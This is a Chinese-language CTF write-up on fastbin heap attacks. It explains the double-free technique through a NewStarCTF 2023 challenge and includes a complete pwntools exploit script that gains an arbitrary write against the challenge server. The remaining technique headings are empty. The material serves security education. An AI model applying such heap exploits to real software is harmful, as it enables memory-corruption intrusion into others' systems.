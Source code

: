 ```yaml
---
title: Fastbin Attack
tags: [ctf-pwn,heap]
date: 2023-10-24 10:58:00
categories: [ctf-pwn]
excerpt: fastbin的几种攻击方法
---
```


#### Fastbin

##### Double Free

以buuoj NewStarCTF 2023 week 4 Double为例

目的是向任意地址写入值

经典的网图

![](/img/Fastbin/1.jpg)

原理在于，三次free之后，第一次把chunk1 malloc出来之后，可以对content部分进行编辑，而content对于第三次malloc出来的chunk1是fd，这个fd在第四次malloc时，会从自己写的地址进行malloc，然后这个malloc出来的块的content又是可编辑的。这样就实现了任意地址写。

```python
from pwn import *

#p = process("./Double")
p = remote("node4.buuoj.cn", 25942)

#gdb.attach(p, "b *0x080486B5")

def add(idx, content):
  p.recvuntil(b">\n")
  p.sendline(b"1")
  p.recvuntil(b"Input idx\n")
  p.sendline(idx)
  p.recvuntil(b"Input content\n")
  p.sendline(content)
  

def free(idx):
  p.recvuntil(b">\n")
  p.sendline(b"2")
  p.recvuntil(b"Input idx\n")
  p.sendline(idx)

def check():  
  p.recvuntil(b">\n")
  p.sendline(b"3")
  
  
add(b'1', b"aaaa")
add(b'2', b"bbbb")
free(b'1')
free(b'2')
free(b'1')

add(b'1', p64(0x602070 - 16))

add(b'2', b'dddd')

add(b'3', b'eeee')

add(b'4', p64(1638))

check()

p.interactive()
```



##### House of Spirit



##### Alloc to Stack



##### Arbitary Alloc